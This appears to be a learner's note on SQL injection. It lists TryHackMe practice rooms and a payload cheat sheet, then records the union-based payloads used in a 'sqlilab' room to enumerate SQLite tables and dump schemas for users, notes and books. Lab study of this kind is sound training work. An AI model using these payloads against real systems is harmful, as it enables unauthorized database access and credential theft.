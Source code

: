 ## Resource
 - https://tryhackme.com/room/sqlilab : Good room with a web server machine that can be used to learn and test various sql injection
 - https://tryhackme.com/room/sqlinjectionlm: another room with good sql injection categorization and example/practice
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection : extensive sql injection cheat sheet


 sqlilab book title 1:
` ') union select 1,2,3,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%' -- -` : get tables
users, notes, books
`') union select 1, 2, 3,(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='notes') -- -`: column names for notes

book title 2:

base: `' UNION SELECT 1 -- -`
second query: `' UNION SELECT '-1''UNION SELECT 1, 2, 3, 4 -- -`
tables users notes books
column:
CREATE TABLE books ( id integer primary key, title text not null, description text not null, author text not null )

CREATE TABLE users ( id integer primary key, username text unique not null, password text not null )

CREATE TABLE notes ( id integer primary key, username text not null, title text not null, note text not null )
